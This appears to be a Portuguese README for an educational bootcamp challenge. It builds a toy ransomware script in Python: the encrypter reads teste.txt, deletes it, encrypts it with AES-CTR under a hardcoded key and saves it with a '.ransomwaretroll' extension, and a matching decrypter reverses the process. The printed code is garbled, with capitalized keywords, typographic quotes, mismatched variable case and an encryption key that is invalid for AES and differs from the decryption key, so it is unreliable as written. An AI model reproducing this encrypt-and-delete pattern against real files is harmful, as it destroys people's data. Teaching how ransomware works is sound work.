 # desafio-dio-ransomware
Desafio de criptografia e descriptografia.

1º ETAPA



Criar os Arquivos com o comando nano (usado para escrever/editar dentro de um arquivo) ou touch (usado para criar um arquivo) no terminal do Linux depois que estiver dentro da pasta “projeto-ransomware"



·        encrypter.py

·        decrypter.py

·        teste.txt



2º ETAPA



Escrever uma frase dentro do arquivo teste.txt usando o comando nano, exemplo “Este arquivo está legível”.



·        Salvar com o ctrl + o;

·        Depois de Enter;

·        Depois Ctrl + x



3º ETAPA



Escrever os comandos necessários dentro do arquivo encrypter.py usando o comando nano:

 

Import os

Import pyaes

 

## abrir o arquivo a ser criptografado

 

File­_name =‘teste.txt’

File = open(file_name, ‘rb’)

File_data = file.read()

File.close()

 

## remover o arquivo original

 

os.remove(file_name)

 

## chave de criptográfica

 

Key = b“testeransomware”

Aes = pyaes.AESModeOfOperationCTR(key)

 

## criptografar o arquivo

 

Crypto_data = aes.encrypt(file_data)

 

## salvar o arquivo criptografado

new_file = file_name + ‘.ransomwaretroll'

new_file = open(f‘{new_file}’,‘wb’)

new_file.write(crypto_data)

new_file.close()

 

Agora salvar com o Ctrl + O, Enter, depois Ctrl + x.

 

4º ETAPA



Escrever os comandos necessários dentro do arquivo decrypter.py usando o comando nano:



import os

import pyaes

 

## abrir o arquivo criptografado

file_name = ‘teste.txt.ransomwaretroll’

file = open(file_name, ‘rb’)

file_data = file.read()

file.close()

 

## chave para descriptografia

key = b‘testeransomwares’

aes = pyaes.AESModeOfOperationCTR(key)

decrypt_data = aes.decrypt(file_data)

 

## remover o arquivo criptografado

os.remove(file_name)

 

## criar o arquivo descriptografado

new_file = ‘teste.txt’

new_file = open(f'{new_file}', ‘wb’)

new_file.write(decrypt_data)

new_file.close()

 

Agora salvar com o Ctrl + O, Enter, depois Ctrl + x.



5º ETAPA FINAL


Realizar os comandos de criptografar, listar arquivos (para ver o resultado), descriptografar e listar arquivos novamente (para ver o resultado final)

python encrypter.py

ls

python decrypter.py

ls
